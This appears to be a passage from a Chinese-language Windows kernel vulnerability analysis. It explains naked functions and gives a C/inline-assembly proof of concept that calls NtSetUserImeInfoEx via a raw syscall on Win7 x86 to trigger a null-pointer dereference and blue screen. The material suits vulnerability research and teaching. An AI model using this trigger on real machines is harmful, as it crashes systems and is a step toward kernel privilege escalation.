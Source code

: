 __declspec(naked)是用来告诉编译器函数代码的汇编语言为自己的所写，不需要编译器添加任何汇编代码，通俗说可生成纯汇编。

官方解释：For functions declared with the naked attribute, the compiler generates code without prolog and epilog code. You can use this feature to write your own prolog/epilog code sequences using inline assembler code. Naked functions are particularly useful in writing virtual device drivers. Note that the naked attribute is only valid on x86, and is not available on x64 or Itanium.(混合汇编编写代码仅支持生成x86应用)

整合起来为：

```
#include &lt;windows.h&gt;

__declspec(naked) void NtSetUserImeInfoEx(char* arg1)

`{`

__asm

`{`

mov eax, 0x1226;

mov edx, 0x7ffe0300;

call dword ptr[edx];

ret 0x04

`}`

`}`

int main()

`{`

HWINSTA hStation = CreateWindowStation(0, 0, READ_CONTROL, 0);

SetProcessWindowStation(hStation);

char ime[0x800];

NtSetUserImeInfoEx(ime);

return 0;

`}`
```

编译成exe丢到Win7 x86虚拟机中执行，由于调用系统服务时产生了模式切换，进入了内核态，在内核态中，对空指针进行操作，进而触发了蓝屏。而在用户模式下对空指针进行操作，只会返回程序错误。

蓝屏触发，说明触发了空指针引用，定位到漏洞点。
